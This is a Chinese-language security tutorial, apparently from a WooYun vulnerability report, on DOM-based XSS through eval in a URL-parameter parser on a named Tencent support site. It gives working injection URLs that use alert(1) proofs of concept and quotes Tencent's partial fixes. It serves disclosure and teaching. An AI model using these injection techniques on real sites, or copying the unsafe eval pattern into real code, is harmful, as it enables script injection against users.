

# 10\. Dom Xss 进阶 [邂逅 eval]

> 来源：[10\. Dom Xss 进阶 [邂逅 eval]](http://www.wooyun.org/bugs/wooyun-2010-016197)

## 简要描述

前面的教程，说到了显式输出和隐式输出。但是不论怎么样，因为最终 javascript 都会通过 document.write 或 innerHTML 将内 容输出到网页中，所以我们总是有办法看到输出到哪里。 但是有时候，我们的输出，最终并没有流向 innerHTML 或 document.write， 而是与 eval 发生了邂逅，我们该怎么挖掘并利用呢？

## 详细说明

1\. 我们直接上例子。

```
http://kf.qq.com/search_app.shtml?key=aaaaa 
```

和前面的不同之处，这次我们搜索源代码和调试工具都看不到任何东西。


2\. 这个时候，我们可以看看 Console，看看有没有其它有用的东西～～

一般来说，默认情况下，是不会有问题的。我们可以给参数加一些特殊符号。

这里我比较习惯用`\`，因为这玩意比较好使。当然你也可以用其它比较特殊的符号，比如双引号，单引号，只是被过滤掉的几率比较大。

这个时候，我们看看 Console 里面，多出了一条错误。


我们可以点右侧，直接定位到错误代码。


3\. 点进去后，可以看到是哪个地方出错了。



我们来看看这段代码：

```
var getarg = function()
{
    var url = window.location.href; 
    var allargs = url.split("?")[1];
    if (allargs!=null && allargs.indexOf("=")>0)
    {
        var args = allargs.split("&"); 
        for(var i=0; i<args.length; i++)
        {
            var arg = args[i].split("="); 
            eval('this.'+arg[0]+'="'+arg[1]+'";');
        }
    }
}; 
```

和上一节教程类似，这段代码，实际上也是一个获取地址栏参数的代码。

比如，地址栏是 `key=aaaa;` 那么 `arg[0]` 就是字符串`'key'`, `arg[1]` 就是字符串 `'aaaa'`; 那么 eval 这句就是执行的 `eval('this.key="aaaa";')`


这样一来 , `this.key="aaaa";`这句就被执行了。

4\. 如果这里我们把 key 换个写法呢？

```
this.key="aaaa"; this.key;alert(1);//="aaaa"; 
```

如下图：


那么是不是将会执行我们的 `alert(1);`呢？

5\. 根据上面内容，我们可以构造代码。

```
http://kf.qq.com/search_app.shtml?key;alert(1);//=aaaa 
```

HOHO～，如我们所愿的弹出了。


6\. 不知道看完上面的，有没有娃注意到，后面的 aaaa 不是也可以构造吗？

```
this.key="aaaa"; 
```

换为

```
this.key="aaa";alert(1);//"; 
```

确实是如此 :)

```
http://kf.qq.com/search_app.shtml?key=aaa";alert(1);// 
```

这个在 IE 下一样是可以的。

但是这样在 chrome 下却不行。 原因其实上面一节教程也提到过。 chrome 会自动对`"`, `>`, `<` 进行转换。

因而 `this.key="aaa";alert(1);//";` 会变成 `this.key="aaa%22;alert(1);//";` 从而失效。

7.上面就是本篇教程了，我们再来看看题外话。 其实以上问题，不是单独存在的。在另外一个页面也是存在的。 更多内容，参见本篇漏洞修复。

## 修复方案

参照你们已经修复的类似文件即可。

```
http://kf.qq.com/wsearch.shtml 
```

的

```
http://kf.qq.com/js/wsearch.js 
```

本来上面这个文件也是存在漏洞的，估计这个位置已经被人报告给腾讯了，因而腾讯加了一次防御。我们看看腾讯的防御措施。

```
var getarg = function(){
    .... 省略相同部分...
    eval('this.' + arg[0] + '="' + HtmlAttributeEncode(arg[1]) + '";');
    .... 省略相同部分...
} 
```

也就是说，腾讯这里对后面的 `arg[1]` 进行了过滤。 接着，这个问题又被再次报告了，因而前些时候，腾讯又进一步做了修复。

```
var getarg = function(){
    .... 省略相同部分...
    if (arg[0] != null && arg[1] != null && (arg[0] == 'page' || arg[0] == 'count' || arg[0] == 'tag'
    || arg[0] == 'key' || arg[0] == 'total') )
    {
        eval('this.' + arg[0] + '="' + HtmlAttributeEncode(arg[1]) + '";');
    }
    .... 省略相同部分...
} 
```

这一次，腾讯对 arg[0]进行了判断。

哈，补了东墙，补西墙。 不过呢？补了这个 wsearch.js 文件，还有我们现在分析的这个([`kf.qq.com/js/search_app.js`](http://kf.qq.com/js/search_app.js](http://kf.qq.com/js/search_app.js](http://kf.qq.com/js/search_app.js)) 文件。